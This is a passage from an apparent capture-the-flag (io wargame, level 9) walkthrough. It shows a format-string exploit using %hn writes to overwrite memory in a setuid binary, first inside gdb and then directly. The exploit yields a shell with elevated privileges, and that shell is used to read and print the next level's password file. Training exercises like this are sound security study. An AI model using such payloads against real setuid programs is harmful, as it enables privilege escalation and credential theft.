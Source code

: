     (gdb) r $(echo -e '\x9c\xfb\xff\xbfXXXX\x9e\xfb\xff\xbf%p%p%64949d%hn%49711d%hn')
    process 2553 is executing new program: /bin/bash
    sh-4.3$ exit

Nice, now on outside of gdb:

    level9@io:~$ ./level09 $(echo -e '\x9c\xfb\xff\xbfXXXX\x9e\xfb\xff\xbf%p%p%64949d%hn%49711d%hn')
    sh-4.2$ id
    uid=1009(level9) gid=1009(level9) euid=1010(level10) groups=1010(level10),1009(level9),1029(nosu)
    sh-4.2$ cat /home/level10/.pass
    UT3ROlnUqI0R2nJA

> UT3ROlnUqI0R2nJA
